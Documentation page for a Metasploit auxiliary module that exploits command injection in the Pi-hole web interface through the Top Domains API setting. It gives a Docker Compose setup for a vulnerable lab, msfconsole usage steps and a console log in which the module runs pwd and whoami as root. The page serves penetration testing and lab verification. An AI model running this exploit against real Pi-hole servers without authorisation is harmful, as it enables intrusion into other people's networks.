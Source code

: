 ## Vulnerable Application

This exploits a command execution in Pi-Hole Web Interface <= 5.5.
The Settings > API/Web inetrace page contains the field
Top Domains/Top Advertisers which is validated by a regex which does not properly
filter system commands, which can then be executed by calling the gravity
functionality.  However, the regex only allows a-z, 0-9, _.

### Docker Compose

Using the Docker compose file below, execute `docker compose up -d`
to get a vulnerable environment running.

```
version: "3"

# More info at https://github.com/pi-hole/docker-pi-hole/ and https://docs.pi-hole.net/
services:
  pihole:
    container_name: pihole
    image: pihole/pihole:v5.5
    ports:
      #- "53:53/tcp"
      #- "53:53/udp"
      #- "67:67/udp"
      - "192.168.2.199:80:80/tcp"
    environment:
      TZ: 'America/Chicago'
      WEBPASSWORD: ''
    # Volumes store your data between container upgrades
    volumes:
      - './etc-pihole/:/etc/pihole/'
      - './etc-dnsmasq.d/:/etc/dnsmasq.d/'
    # Recommended but not required (DHCP needs NET_ADMIN)
    #   https://github.com/pi-hole/docker-pi-hole#note-on-capabilities
    cap_add:
      - NET_ADMIN
    restart: unless-stopped
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/admin/http/pihole_domains_api_exec`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the output from the command.

## Options

### COMMAND

The command to run. This is VERY restrictive. Valid characters are `0-9`, `a-z`, `_`.
[Ref](https://github.com/pi-hole/AdminLTE/blob/v5.3.1/scripts/pi-hole/php/savesettings.php#L71). Defaults to `pwd`.

## Scenarios

### Pi-hole v5.2.4 with Web Interface 5.3.1 via Docker

```
[*] Processing pihole.rb for ERB directives.
resource (pihole.rb)> use auxiliary/admin/http/pihole_domains_api_exec
resource (pihole.rb)> set rhosts 192.168.2.199
rhosts => 192.168.2.199
resource (pihole.rb)> set verbose true
verbose => true
resource (pihole.rb)> run
[*] Running module against 192.168.2.199
[+] Web Interface Version Detected: 5.3.1
[*] Using token: YbGnWVA3ogVs0eLaKjEDGPaX8Zy1l5X3dxfHHSdy6r8=
[*] Sending payload request
[*] Forcing gravity pull
[+] /var/www/html/admin/scripts/pi-hole/php
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/pihole_domains_api_exec) > set command whoami
command => whoami
msf6 auxiliary(admin/http/pihole_domains_api_exec) > run
[*] Running module against 192.168.2.199

[+] Web Interface Version Detected: 5.3.1
[*] Using token: 9dtOO2bIndYSyJ1KsGYBa7pV5B4MToTQB1h2dmRfHk8=
[*] Sending payload request
[*] Forcing gravity pull
[+] root
[*] Auxiliary module execution completed
```
